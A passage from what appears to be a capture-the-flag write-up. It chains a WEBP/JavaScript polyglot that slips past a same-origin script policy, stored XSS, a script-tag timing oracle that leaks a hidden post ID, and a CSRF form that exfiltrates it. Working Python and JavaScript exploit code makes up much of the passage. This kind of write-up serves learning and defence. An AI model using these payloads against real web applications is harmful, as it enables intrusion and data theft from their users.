webp_data = byte_stream.getvalue()

if len(webp_data) < total_desired_size:
    webp_data = webp_data + b"\x00" * (total_desired_size - len(webp_data))
elif len(webp_data) > total_desired_size:
    webp_data = webp_data[:total_desired_size]

length_bytes = (10799).to_bytes(4, byteorder="little")
webp_data_fixed = b"RIFF" + length_bytes + webp_data[8:]

comment = b"*/=1;alert();"
webp_data_with_comment = webp_data_fixed + comment

with open("sample.webp", "wb") as f:
    f.write(webp_data_with_comment)
```

This PoC creates a WEBP image with a payload size of `10799` which when converted to little endian 32bit correlates to `2F2A0000` which just so happens to be within the ASCII range and maps to the characters `/*`. We only set the color of the image to red `(255, 0, 0)` and then fill it with null `00` bytes to make it match the appropriate length. At the end we can add our js payload and because this falls outside of the WEBP payload boundaries it still constitutes the file a valid WEBP image.

```
00000000: 5249 4646 2f2a 0000 5745 4250 5650 3820  RIFF/*..WEBPVP8 
00000010: 5a00 0000 1006 009d 012a 6400 6400 3e6d  Z........*d.d.>m
00000020: 3699 49a4 2322 a120 a800 800d 8969 6ee1  6.I.#". .....in.
00000030: 73e9 701f 8000 018d aea6 f711 7960 1aea  s.p.........y`..
00000040: 6f71 1796 01ae a6f7 1179 601a 7800 fefe  oq.......y`.x...
00000050: 517d ffff 905c b0ba e46b ffff 203f e407  Q}...\...k.. ?..
00000060: fc80 fff8 f8a6 4695 2a74 2000 0000 0000  ......F.*t .....

[REDACTED NULL BYTES]

00002a30: 0000 0000 0000 002a 2f3d 313b 616c 6572  .......*/=1;aler
00002a40: 7428 293b                                t();
```

Passing the generated file through `xxd` we can get a better view of the generated file.

```js
RIFF/*[JUNK DATA]*/=1;alert();
```

And here is a representation of what the javascript interpreter will see, it is a clearly valid js payload.



So now all we need to do is create a post to upload our WEBP polyglot payload.



Then we get the link of the uploaded image from the newly created post.



We make a new post and in the content field which is not sanitized by the server we add a script tag payload as such:

```html
<script src="/static/uploads/[NEW_WEBP_ID].webp"></script>
```

That will load our uploaded payload from the server thus adhering to the `script-src 'self'` directive of the CSP.



And leading to a successful stored XSS.

## SS-leaks using network timing oracle

Let's see where the flag is located and what our goal would be to get to it.

```py
def read_flag():
    with open("/flag.txt", "r") as f:
        return f.read()
    
FLAG = read_flag()
```

As we saw before the flag is read from the file at `/flag.txt` and stored on the `FLAG` global variable.

```py
[REDACTED]

        Post(
            id=generate_short_id(),
            title="Hidden Post [Staff]",
            content=FLAG,
            image_filename="hidden.webp",
            date_posted=datetime(2025, 6, 9),
        )
    ]

    db.session.bulk_save_objects(initial_posts)
    db.session.commit()
```

Next time we see the global refrenced is on the `seed_posts` function at the last post added to the initial posts of the application. The title of the post is `Hidden Post [Staff]` and the flag is placed at the content of the post.

```html

Home | Hyperlooped

  <h2 class="text-3xl mb-6">Latest Transmissions</h2>
  <div class="grid lg:grid-cols-3 sm:grid-cols-2 gap-8">
    
      
        <article class="bg-black/40 p-4 rounded-xl border border-fuchsia-700/40 shadow-lg hover:shadow-fuchsia-500/50 transition">
          <a href="{{ url_for('entry', post_id=post.id) }}" class="block">
            
            <h3 class="text-xl neon mb-2">{{ post.title }}</h3>
          </a>
          <p class="text-sm text-gray-400">{{ post.date_posted.strftime('%B %d, %Y') }}</p>
        </article>
      
    
      <p>No data in the databanks yet—come back soon!</p>
    
  </div>

```

Looking at the template of the main page at `app/template/main.html`, we see that if the title of a post contains `[Staff]` it is not shown, thus making it hidden and since the id's of the posts are random, we can't easily deduce the link of the hidden post and retrieve the flag. So from this analysis we construct a solid goal, that is to somehow deduct the id of the hidden post to leak the flag.

Since we are able to perform XSS, it means we can access and control the page that the bot visits.

```py
def bot_runner(post_id):
    # To-do: remember to enable internet access for bot
    url = "http://127.0.0.1:1337/entry/"+post_id
    try:
        with sync_playwright() as p:
            browser = p.firefox.launch(headless=True)
            context = browser.new_context()
            page = context.new_page()

            page.goto(url)
            page.wait_for_timeout(30_000)

            return True
    except Exception as e:
        False
```

As we saw whenever a new post is created, the `bot_runner` function is called to simulate the admin visiting the new page. We see a To-do comment left out indicating to us that the internet connection is disabled on the bot's side, so it is not possible for us to exfiltrate any data to a server we control.

```py
@app.route("/track_view/<post_id>")
def track_view(post_id):
    if request.remote_addr != "127.0.0.1":
        abort(403)

    post_exists = check_post_by_id(post_id)
    
    if post_exists:
        increment_post_views(post_id)

    return render_template("track_view.html")
```

There is the `track_view` endpoint, that is only accessible from localhost. A `post_id` parameter is expected that is then passed as a parameter to the `check_post_by_id` function. If the post exists the the `increment_post_views` is called for that `post_id`.

```py
def check_post_by_id(post_id):
    # time.sleep(1)
    if not post_id:
        return False

    return (
        Post.query
        .filter(Post.id.startswith(post_id))
        .first()
        is not None
    )
```

Going back to check the source code of the `check_post_by_id` function, we notice that for the filtering of the available posts, the `startswith` method. Meaning that it would return true not only on exact matched but even if the provided input is part of the start of any post id.

```py
existing_ids = [
    "fcc45d-54a159",
    "737472-b0af56"
]

check_post_by_id("fcc45d-54a159") # True
check_post_by_id("fcc45d-") # True
check_post_by_id("fcc") # True
check_post_by_id("e1") # False
check_post_by_id("7") # True
```

As we saw if this returns `True` the `increment_post_views` is called to add a view to the counter of the post.

```py
def increment_post_views(post_id):
    time.sleep(1)
    post = (
        Post.query
        .filter(Post.id.startswith(post_id))
        .with_for_update()
        .first()
    )
    if post:
        post.views += 1
        db.session.commit()
```

However as we see at the start of this function `time.sleep(1)` is called, this means that if we query a valid start of an existing id a delay is introduced. We can utilize this endpoint as an oracle for an `SS-leak` using that delay.

Using the WEBP payload we could try making requests to that endpoint to try and write some logic to deduct a valid post id.

```
00002a20: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00002a30: 0000 0000 0000 002a 2f3d 313b 6665 7463  .......*/=1;fetc
00002a40: 6828 272f 7472 6163 6b5f 7669 6577 2f30  h('/track_view/0
00002a50: 2729 3b                                  ');
```

Using a payload like this `fetch('/track_view/0');` to start building our PoC.



We see that the request is blocked from the browser, this happens due to the `connect-src 'none'` directive set, that blocks all direct outbound traffic. So this prevents us from making requests with the usual abstractions like the API's provided by javascript. But we can still utilize side-channel methods to make requests in a non-traditional way and by measuring their time-to-response it is possible to deduct post id characters.

```js
const threshold = 500;
const maxLength = 13;

const uuidChars = [];
for (let i = 48; i <= 57; i++) uuidChars.push(String.fromCharCode(i));
for (let i = 97; i <= 102; i++) uuidChars.push(String.fromCharCode(i));
uuidChars.push("-");

const checkChar = (testString, threshold) => {
  return new Promise((resolve) => {
    const script = document.createElement("script");
    const start  = performance.now();

    script.onload  = () => resolve(performance.now() - start > threshold);
    script.onerror = () => resolve(false);

    script.src = `/track_view/${testString}`;
    document.body.appendChild(script);
  });
};

const leakUUID = async () => {
  let leaked = "";

  for (let i = 0; i < maxLength; i++) {
    for (const char of uuidChars) {
      const test  = leaked + char;
      const found = await checkChar(test, threshold);
      if (found) {
        leaked += char;
        break;
      }
    }
  }
  return leaked;
};

(async () => {
  try {
    const uuid = await leakUUID();
    console.log("Leaked UUID:", uuid);
  } catch (err) {
    console.error("Error leaking UUID:", err);
  }
})();
```

This script attempts to leak a character UUID by guessing each character one at a time. It uses a predefined set of valid UUID characters (`0-9`, `a-f`, and `-`) and tries each possibility until a correct match is found, based on feedback from the async `checkChar` function. If `checkChar` confirms a match (likely via timing or behavior analysis), the character is added to the leaked string. This process repeats until 13 characters are recovered.

The `checkChar` function is used to test if a guessed string is correct by observing how long it takes the browser to load a `script` from the server. It creates a `<script>` tag with a source URL that includes the guessed string, and appends it to the page. The moment it starts loading, it records the current time. If the script successfully loads and the time taken is greater than a specified threshold, it considers the guess correct and returns true. If the script fails to load, it simply returns false. This technique relies on the idea that the server might take longer to respond when a guess is partially correct, allowing the script to leak the correct string based on response timing.

Also other kinds of tags can be used for this SS-leak side-channel attack.

## CSRF for exfiltration

So now we have a way to leak the id of a hidden post, but we need to find a way to exfiltrate it since the container does not have any outbound internet connection.

```py
@app.route("/upload_blog_post", methods=["GET", "POST"])
def upload_post():
    if request.method == "POST":
        title = request.form.get("post_title", "").strip()
        content = request.form.get("post_body", "").strip()
        file = request.files.get("file")

        if not (title and content and file):
            abort(400, "Missing required fields.")

        if not is_webp(file):
            abort(400, "Invalid file type. Only WEBP images are accepted.")

        try:
            filename = f"{generate_short_id()}.webp"
            save_path = app.config["UPLOAD_FOLDER"] / secure_filename(filename)
            file.save(save_path)

            new_post = Post(
                id=generate_short_id(),
                title=title,
                content=content,
                image_filename=filename,
            )
            db.session.add(new_post)
            db.session.commit()
            
            Thread(target=bot_runner, args=(new_post.id,)).start()
            return redirect(url_for("entry", post_id=new_post.id))
        except Exception as e:
            abort(500, "Server error while saving the post.")

    return render_template("upload.html")
```

One thing we can do is create a new post containing the leaked id, so we will abuse the application's functionality to use it for exfiltration.

```js
function submitLeakedUUID(uuid) {
    const form = document.createElement("form");
    form.action = "/upload_blog_post";
    form.method = "POST";
    form.enctype = "multipart/form-data";
    form.style.display = "none";

    const titleInput = document.createElement("input");
    titleInput.type = "text";
    titleInput.name = "post_title";
    titleInput.value = "[FLAG UUID]";
    form.appendChild(titleInput);

    const bodyInput = document.createElement("input");
    bodyInput.type = "text";
    bodyInput.name = "post_body";
    bodyInput.value = uuid;
    form.appendChild(bodyInput);

    const fileInput = document.createElement("input");
    fileInput.type = "file";
    fileInput.name = "file";
    form.appendChild(fileInput);

    document.body.appendChild(form);

    const dt = new DataTransfer();
    const blob = createSampleWebPBlob();
    dt.items.add(new File([blob], "sample.webp", { type: "image/webp" }));
    fileInput.files = dt.files;

    form.submit();
}
```

The `submitLeakedUUID` function creates a hidden form that mimics a legitimate blog post submission to the `/upload_blog_post` endpoint, setting the `post_title` to a known marker like `[FLAG UUID]` and the `post_body` to the actual leaked UUID value, while attaching and decoding from base64 a programmatically generated `.webp` image to satisfy the file upload requirement, when submitted, this results in the server storing a valid post containing the exfiltrated data, which the attacker can later locate by searching for the title marker.





This is done since we cannot use normal requests due to the CSP, we use this CSRF method to create a post so we can get the leaked id.


